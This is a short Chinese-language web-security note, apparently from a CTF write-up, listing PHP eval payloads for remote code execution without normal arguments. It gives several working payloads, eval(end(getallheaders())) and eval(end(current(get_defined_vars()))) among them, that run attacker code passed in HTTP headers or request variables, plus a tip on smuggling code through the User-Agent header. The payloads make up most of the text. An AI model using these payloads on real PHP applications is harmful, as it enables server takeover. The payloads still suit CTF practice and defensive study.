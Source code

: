 目录下文件

## payload

### payload\_1 getenv()

```plain
var_dump(getenv(phpinfo()));
```

**getenv() 获取一个环境变量的值，phpinfo() 获取全部的环境变量，其实不是很理解，直接 phpinfo() 就好了。**

### payload\_2 getallheaders()

```plain
eval(end(getallheaders()));
```

**end() 将数组的内部指针移到最后一个；**

**getallheaders() 获取所有的 http 请求头；**

[![](assets/1698897208-5e2d23beb1c95d94fa04e5978e95b64e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204737-472bea42-8d68-1.png)

这里需要两个`eval`的原因，我认为是，如果只有一个`eval`就只是执行 `end(getallheaders());` 获取了其返回值，但是并没有执行其返回值，再加一个`eval` ，也就是获取了返回值后，再`eval()`。

如果用 bp 打，传最后一个似乎并不行，那么我们可以尝试修改 ua 头，然后用把 end 改成 next；

### payload\_3 get\_defined\_vars()

```plain
eval(end(current(get_defined_vars())));&jiang=phpinfo();
```
